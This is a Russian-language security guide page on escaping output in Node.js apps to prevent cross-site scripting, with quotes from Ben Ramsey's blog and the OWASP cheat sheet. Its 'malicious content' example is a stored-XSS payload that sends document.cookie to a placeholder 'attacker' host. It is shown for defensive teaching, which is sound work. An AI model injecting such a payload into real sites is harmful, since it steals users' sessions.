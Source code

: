 # Экранируйте вывод

### Объяснение в один абзац

HTML и другие веб-языки смешивают контент с исполняемым кодом - один абзац HTML может содержать визуальное представление данных вместе с инструкциями по выполнению JavaScript. При рендеринге HTML или возврате данных из API то, что мы считаем чистым контентом, может фактически содержать код JavaScript, который будет интерпретироваться и выполняться браузером. Это происходит, например, когда мы визуализируем контент, вставленный злоумышленником, в базу данных - например, `<div><script>//malicious code</script></div>`. Это может быть смягчено путем указания браузеру обрабатывать любой кусок ненадежных данных только как контент и никогда не интерпретировать его - этот метод называется экранированием. Многие библиотеки npm и движки шаблонов HTML предоставляют возможности экранирования (пример: [escape-html](https://github.com/component/escape-html), [node-esapi](https://github.com/ESAPI/узел-esapi)). Не только HTML-контент должен быть экранирован, но также CSS и JavaScript


### Пример кода - не помещайте ненадежные данные в ваш HTML

```javascript
<script>...NEVER PUT UNTRUSTED DATA HERE...</script>   directly in a script
 
 <!--...NEVER PUT UNTRUSTED DATA HERE...-->             inside an HTML comment
 
 <div ...NEVER PUT UNTRUSTED DATA HERE...=test />       in an attribute name
 
 <NEVER PUT UNTRUSTED DATA HERE... href="/test" />   in a tag name
 
 <style>...NEVER PUT UNTRUSTED DATA HERE...</style>   directly in CSS

```

### Пример кода - вредоносный контент, который может быть введен в БД

```javascript
<div>
  <b>A pseudo comment to the a post</b>
  <script>
    window.location='http://attacker/?cookie='+document.cookie
</script>
</div>

```

<br/><br/>

### Цитата из блога: "Когда мы не хотим, чтобы символы интерпретировались"

Из блога [benramsey.com](https://benramsey.com/articles/escape-output/)
> Данные могут оставить ваше приложение в виде HTML, отправленного в веб-браузер, SQL, отправленного в базу данных, XML, отправленного в программу чтения RSS, WML, отправленного на беспроводное устройство, и т.д. Возможности безграничны. Каждый из них имеет свой собственный набор специальных символов, которые интерпретируются иначе, чем остальная часть полученного простого текста. Иногда мы хотим отправить эти специальные символы так, чтобы они интерпретировались (например, HTML-теги, отправляемые в веб-браузер), в то время как в других случаях (в случае ввода от пользователей или какого-либо другого источника) нам не нужно интерпретировать символы, поэтому мы должны экранировать их.

> Экранирование также иногда называют "кодированием". Короче говоря, это процесс представления данных таким образом, что они не будут выполнены или интерпретированы. Например, HTML будет отображать следующий текст в веб-браузере как текст, выделенный жирным шрифтом, поскольку теги `<strong>` имеют особое значение:
<strong>This is bold text.</strong>
Но, предположим, я хочу отобразить теги в браузере и избежать их интерпретации. Затем мне нужно избежать угловых скобок, которые имеют особое значение в HTML. Следующее иллюстрирует экранированный HTML:

`&lt;strong&gt;This is bold text.&lt;/strong&gt;`


<br/><br/>

### Цитата из блога: "OWASP рекомендует использовать библиотеку кодирования, ориентированную на безопасность"

Из блога OWASP [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
> "Написание этих кодировщиков не так уж сложно, но есть немало скрытых ловушек. Например, у вас может возникнуть соблазн использовать некоторые из таких ярлыков, как `\"`, в JavaScript. Однако эти значения опасны и могут быть неправильно истолкованы вложенными анализаторами в браузере. Вы также можете забыть избежать парсинга, который злоумышленники могут использовать для нейтрализации ваших попыток быть в безопасности. **OWASP рекомендует использовать ориентированную на безопасность библиотеку кодирования, чтобы обеспечить правильное выполнение этих правил**."


<br/><br/>

### Цитата из блога: "Вы ДОЛЖНЫ использовать синтаксис escape для части HTML"

Из блога OWASP [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
> "Но кодирование сущностей HTML не работает, если вы помещаете ненадежные данные в тег `<script>` где-либо, или в атрибут обработчика событий, например `onmouseover`, или в CSS, или в URL. Так что даже если вы используете сущность HTML Метод кодирования везде, вы все еще, скорее всего, уязвимы для XSS. Вы ДОЛЖНЫ использовать синтаксис escape для той части HTML-документа, в которую вы помещаете ненадежные данные."